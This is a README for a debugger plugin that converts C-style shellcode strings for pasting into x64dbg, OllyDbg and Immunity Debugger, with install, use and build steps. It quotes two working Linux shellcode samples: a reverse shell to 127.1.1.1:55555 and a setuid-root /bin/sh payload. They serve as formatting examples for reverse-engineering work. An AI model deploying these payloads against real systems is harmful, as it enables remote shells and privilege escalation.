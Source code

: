 # xshellex
**WARNING**: the ugliest code in the world

With xshellex you can paste any kind of c-shellcode strings in x64dbg, ollydbg & immunity debugger. Also you can convert the "binary-copied-clipboard" to c-shellcode string.

This plugin uses my shellex c-shellcode converter to HEX:
* https://github.com/David-Reguera-Garcia-Dreg/shellex

## Install

Just download https://github.com/David-Reguera-Garcia-Dreg/xshellex/releases/download/r0.1b/xshellex01b.zip

Extract the .zip

### x64dbg

Copy release folder in the x64dbg folder.

Now check if you have installed:
* x64dbg\release\tcc
* x64dbg\release\shellex.exe
* x64dbg\release\x32\plugins\xshellex.dp32
* x64dbg\release\x64\plugins\xshellex.dp64

### ollydbg

Copy the ollydbg folder content to ollydbg path (I use C:\odbg110)

Now check if you have installed:
* C:\odbg110\tcc
* C:\odbg110\shellex.exe
* C:\odbg110\shellex.dll

### immunity debugger

Copy the immunity folder content to C:\Program Files (x86)\Immunity Inc\Immunity Debugger

Now check if you have installed:
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\tcc
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.exe
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.dll

## Use

Go to Plugins --> xshellex --> launch

Paste your c-shellcode string

Press enter

Press Control+Z

Copy the output to clipboard

![Alt text](launch.png)

Use x64dbg Binary Paste (right click in disasm)

![Alt text](binary_paste.png)

**WARNING**: In x64dbg you can use Paste ignore size BUT in ollydbg & immunity debugger you must select first a long area:

![Alt text](immunity.png)

![Alt text](ollydbg_paste.png)

## Converting binary-copied-clipboard to c-shellcode string

Select area

Right click --> Binary ---> Copy

![Alt text](binary_copy.png)

Go to Plugins --> xshellex --> clipboard to ....

![Alt text](clipboard_to_shellcode.png)

## Why this plugin?

In real world yummyPaste plugin ( https://github.com/0ffffffffh/yummyPaste ) cant works fine, because you have a lot of garbage to filter, just check shellcodes like

http://shell-storm.org/shellcode/files/shellcode-833.php
```
unsigned char code[] = \

"\x68"
"\x7f\x01\x01\x01"  // <- IP Number "127.1.1.1"
"\x5e\x66\x68"
"\xd9\x03"          // <- Port Number "55555"
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce";
```

https://www.exploit-db.com/exploits/13359
```
char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```

## Compilation

Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

**WARNING**: To convert ollydbg plugin to immunity debugger plugin just use auxtools\PluginFix

